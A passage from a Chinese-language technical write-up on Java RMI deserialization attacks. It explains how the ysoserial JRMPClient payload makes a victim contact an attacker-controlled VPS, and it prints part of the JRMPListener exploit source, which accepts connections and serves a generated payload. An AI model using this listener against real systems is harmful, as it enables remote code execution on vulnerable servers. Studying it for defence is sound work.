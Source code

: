 依据payload的生成过程，可知`refClassName`实际上是`UnicastRef.class`，因此会进入else子句，并开启`ref.readExternal(in)`。后面的调用过程不再详述，具体见下图，最终建立一个TCPEndpoint，向我们控制的vps发送DGC请求，这个过程实际和RMIRegistry的DGC部分一致。

![](payloads_client.jpg)

#### `Exploit/JRMPListener`

JRMPListener所做的工作是接受这一请求，再生成攻击payload并发送回去。代码如下：

```java
public static final void main ( final String[] args ) {

    if ( args.length < 3 ) {
        System.err.println(JRMPListener.class.getName() + " <port> <payload_type> <payload_arg>");
        System.exit(-1);
        return;
    }

    // 这里根据命令行参数生成payload
    final Object payloadObject = Utils.makePayloadObject(args[ 1 ], args[ 2 ]);

    try {
        int port = Integer.parseInt(args[ 0 ]);
        System.err.println("* Opening JRMP listener on " + port);
        JRMPListener c = new JRMPListener(port, payloadObject);
        c.run();
    }
    catch ( Exception e ) {
        System.err.println("Listener error");
        e.printStackTrace(System.err);
    }
    Utils.releasePayload(args[1], payloadObject);
}

public void run () {
    try {
        Socket s = null;
        try {
            while ( !this.exit && ( s = this.ss.accept() ) != null ) {
                try {
                    s.setSoTimeout(5000);
                    InetSocketAddress remote = (InetSocketAddress) s.getRemoteSocketAddress();
                    System.err.println("Have connection from " + remote);

                    InputStream is = s.getInputStream();
                    InputStream bufIn = is.markSupported() ? is : new BufferedInputStream(is);

                    // Read magic (or HTTP wrapper)
                    bufIn.mark(4);
                    DataInputStream in = new DataInputStream(bufIn);
                    int magic = in.readInt();

                    short version = in.readShort();
                    if ( magic != TransportConstants.Magic || version != TransportConstants.Version ) {
                        s.close();
                        continue;
                    }

                    OutputStream sockOut = s.getOutputStream();
                    BufferedOutputStream bufOut = new BufferedOutputStream(sockOut);
                    DataOutputStream out = new DataOutputStream(bufOut);

                    byte protocol = in.readByte();
                    switch ( protocol ) {
```